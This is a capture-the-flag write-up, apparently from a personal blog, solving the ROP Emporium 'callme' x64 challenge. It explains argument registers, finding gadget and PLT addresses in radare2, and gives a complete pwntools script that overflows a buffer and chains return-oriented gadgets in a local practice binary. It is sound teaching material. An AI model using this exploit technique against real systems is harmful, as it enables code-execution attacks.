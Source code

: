 ```yaml
---
layout: post
title:  "ROP Emporium callme Writeup (x64)"
date:   2024-06-02 00:00:00 -0400
categories: rop-emporium callme
tags: rop-emporium callme x64 writeup buffer-overflow rop
---
```

## Introduction
[ROP Emporium](https://ropemporium.com/index.html){:target="_blank"}{:rel="noopener noreferrer"}
provides a series of challenges to learn and practice
Return Oriented Programming (ROP). This is the
[third challenge](https://ropemporium.com/challenge/callme.html){:target="_blank"}{:rel="noopener noreferrer"}
of eight.

> This is what a hint will look like!
{: .prompt-tip }

### Goal
According to the
[challenge page](https://ropemporium.com/challenge/callme.html){:target="_blank"}{:rel="noopener noreferrer"}
our goal is to call the functions `callme_one()`,
`callme_two()`, and `callme_three()` in that order with
the arguments `0xdeadbeefdeadbeef`, 
`0xcafebabecafebabe`, and `0xd00df00dd00df00d`.

We should essentially be running
```c
callme_one(0xdeadbeefdeadbeef, 0xcafebabecafebabe, 0xd00df00dd00df00d);
callme_two(0xdeadbeefdeadbeef, 0xcafebabecafebabe, 0xd00df00dd00df00d);
callme_three(0xdeadbeefdeadbeef, 0xcafebabecafebabe, 0xd00df00dd00df00d);
```

### x64 Calling Convention
We know from the first challenge we need to set the
instruction pointer to a function address in order to
call that function. But how do we pass arguments to
those functions?

In `x64` arguments are passed through specific registers.
The first three arguments correspond to the `rdi`, `rsi`,
and `rdx` registers respectively. 
[This x64 cheat sheet](https://ropemporium.com/challenge/split.html){:target="_blank"}{:rel="noopener noreferrer"}
can help if you want to learn more about `x64`.

## Exploit Crafting
The offset for `x64` challenges will be `40 bytes`. If
you want to know how to get this value see the
[ret2win writeup]({% post_url 2024-05-31-rop-emporium-ret2win-x64 %}){:target="_blank"}{:rel="noopener noreferrer"}

### Function Address
> What are the plt addresses of the functions?
{: .prompt-tip }

Using `radare2` we can analyze a binary by
running `aaa`. To list functions with their
addresses we can run `afl`
![func-addr](/images/callme/x64-addr.png)

The function addresses we need are
```
callme_one: 0x00400720
callme_two: 0x00400740
callme_three: 0x004006f0
```

Why are we using the `plt` entries for the functions
rather than the calls in `usefulFunction`? When
a `call` instruction is executed, it'll execute the
function while also placing the return address onto
the stack! So once `callme_one()` is finished it
will continue to execute instructions in `usefulFunction`

![call-problem](/images/callme/x64-call-problem.png)

So after we finish `callme_one()`, the program
will exit!


### Adding Arguments
> Is there a gadget which sets the argument registers?
{: .prompt-tip }
Let's take a look at `usefulFunction` in `radare2`
```
s sym.usefulFunction
V
p
```

![useful-asm](/images/callme/x64-useful-asm.png)

There's a helpful section called `usefulGadgets` with,
who would've thought, a useful gadget! It sets the 
first three `x64` argument registers from the stack,
which we already control! The address of this
gadget is `0x0040093c`

## Exploit
Now we have everything we need to build the exploit
```python
#!/bin/python3
from pwn import *

# useful addresses
call1_addr = 0x00400720
call2_addr = 0x00400740
call3_addr = 0x004006f0
pop_regs_addr = 0x0040093c

# put args into corresponding registers
def set_args(args):
    payload = p64(pop_regs_addr)
    for a in args:
        payload += p64(a)
    return payload

# create payload
payload = b'A' * 40

# callme_one(0xdeadbeefdeadbeef, 0xcafebabecafebabe, 0xd00df00dd00df00d)
args = [0xdeadbeefdeadbeef, 0xcafebabecafebabe, 0xd00df00dd00df00d]
payload += set_args(args)
payload += p64(call1_addr)

# callme_two
payload += set_args(args)
payload += p64(call2_addr)

# callme_three
payload += set_args(args)
payload += p64(call3_addr)

# send payload + receive flag
io = process('./callme')
io.sendline(payload)
io.recvuntil(b'callme_two() called correctly\n')
flag = io.recvline()
log.success(flag)
```
![flag](/images/callme/x64-flag.png)

## Conclusion
This challenge reinforces the the concept of passing
multiple arguments in `x64`, as well as finding
and chaining gadgets together.
